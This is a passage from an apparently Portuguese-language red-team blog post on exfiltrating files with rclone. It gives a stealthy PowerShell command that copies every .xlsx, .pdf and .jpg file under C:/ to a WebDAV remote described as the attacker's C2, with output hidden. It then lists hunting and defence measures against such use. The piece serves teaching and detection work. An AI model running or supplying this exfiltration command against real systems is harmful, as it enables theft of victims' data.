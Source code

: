 O comando `$obscurePassword = .\rclone.exe obscure tration` é usado para ofuscar a senha em texto claro, pois o rclone só funciona se estiver com a senha ofuscada.

### Passo 4: Iniciando a exfiltração

Com nosso ambiente alvo devidamente configurado, vamos iniciar a exfiltração:

```powershell
.\rclone.exe --config config.conf copy C:/ --include "*.xlsx" --include "*.pdf" --include "*.jpg" webdav-exfil: >$null 2>&1
```

O comando acima irá copiar tudo que estiver a partir do caminho C:/ e tudo que for `.pdf`, `.xlsx` ou `.jpg` e enviará para o nosso C2 configurado.

O comando `>$null 2>&1` também pode ser usado como `*> $null`, e ele tem a função apenas de ocultar erros e o output no terminal. Caso queira ver o progresso, você pode remover o `>$null 2>&1` e incluir `--progress` no final para ver o output.

Outra opção que pode ser usada é o comando `--exclude <caminho>`, que pode ser usado para ignorar certas pastas no sistema. Podemos limitar a taxa de transferência ou a duração. Para isso, você pode consultar a documentação oficial para amiores destalhes.

Ao juntar essas duas partes de código em um só, você é capaz de baixar e configurar o rclone e já iniciar a exfiltração.

<figure style="text-align: center;">
  <video width="640" height="340" controls>
    <source src="poc.mp4" type="video/mp4">
    Seu navegador não suporta a tag de vídeo.
  </video>
  <figcaption><i>PoC do exemplo mostrado acima.</i></figcaption>
</figure>

## 3. Técnicas de Hunting para detecção e defesa

Muito embora o uso do Rclone seja legítimo para alguns cenários corporativos, ele pode ser detectado em ambientes que não usam ou permitem o uso do mesmo, com a implementação das técnicas de hunting apropriadas. Algumas abordagens incluem:

- **Controle de executáveis:** Utilizar políticas de controle de aplicações como o AppLocker ou WDAC para impedir a execução de binários não autorizados. Bloquear uso de ferramentas de cloud não homolgadas pela empresa.

- **Controle via DLP:** Embora exista a possibilidade de muitos falsos-positivos, trabalhar com o uso de DLP e ir refinando as regras de DLP pode ser de grande utilidade contra exfiltração de informações.

- **Restrição de protocolos de rede:** No teste foi usado o WebDAV, entretanto, se houver a possibilidade de bloquear protocolos não utilizados, ainda que não haja evidências de uso de outros protocolos, é interessante bloquear, assim reduz as chances de algum incidente futuro.

- **Indicadores de Comprometimento (IoCs):** Pesquisar pelo uso do binário pelo seu nome. Compilar as hashs de versões do Rclone e pesquisar no ambiente. Pesquisar arquivos `.conf` no ambiente.

- **Conscientização:** O elo mais fraco da segurança é o humano, então, trabalhar em treinamentos de usuários para melhores práticas de seguranças e afins, também contribui para um ambiente mais seguro.
